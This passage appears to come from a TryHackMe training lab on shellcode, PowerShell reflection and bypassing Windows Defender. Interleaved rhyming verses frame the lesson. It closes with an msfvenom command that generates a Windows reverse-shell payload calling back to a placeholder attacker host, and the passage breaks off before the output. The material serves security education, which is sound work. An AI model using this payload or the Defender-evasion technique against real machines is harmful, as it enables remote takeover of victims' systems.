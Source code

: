 - **Shellcode**: A piece of code usually used by malicious actors during exploits like buffer overflow attacks to inject commands into a vulnerable system, often leading to executing arbitrary commands or giving attackers control over a compromised machine. Shellcode is typically written in assembly language and delivered through various techniques, depending on the exploited vulnerability.
- ![anti-virus shield depicting protection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1728375094892.png)**PowerShell**: A powerful scripting language and command-line shell built into Windows for task automation and configuration management. It allows users to interact with system components and is widely used by administrators for legitimate purposes. However, attackers often use PowerShell as a post-exploitation tool because of its deep access to system resources and ability to run scripts directly in memory, avoiding disk-based detection mechanisms.
- **Windows Defender**: A built-in security feature that detects and prevents malicious scripts, including PowerShell-based attacks, by scanning code at runtime. Common bypass methods for evading Defender include obfuscating scripts to disguise malicious content, making it harder for the software to recognise known patterns. Another technique is a reflective injection, where malicious code is loaded directly into memory, avoiding detection by signature-based defences. We will cover the latter one in this task.  
    
- **Windows API**: The Windows Application Programming Interface (API) allows programs to interact with the underlying operating system, giving them access to essential system-level functions such as memory management, file operations, and networking. It serves as a bridge between the application and the operating system, enabling efficient resource handling. The Windows API is crucial because many exploitation techniques and malware rely on it to manipulate processes, allocate memory, and execute shellcodes. Common Windows API functions frequently used by malicious actors include `VirtualAlloc`, `CreateThread`, `WaitForSingleObject`, which we will also use in this task for exploitation.
- **Accessing Windows API through PowerShell Reflection**: Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell. Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime. This will enable them to manipulate low-level system processes, making it a primary tool for bypassing security mechanisms, interacting with the operating system, and executing code stealthily.
- **Reverse shell**: A type of connection in which the target (the machine you're trying to hack) initiates a connection back to your attacking machine (in this case, your machine will be the AttackBox). 

![process flow of reverse shell](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1728375153734.png)

## Generating Shellcode

_But Mayor Malware's minions, sneaky and sly,_

_Found his script and gave it a try._

_They tampered the code, changed port and IP,_

_Twisted his work with a sinister glee._

Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell.  

In the AttackBox, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. The output will look like the following.  You will require to replace the `ATTACKBOX_IP` with the IP of the AttackBox.
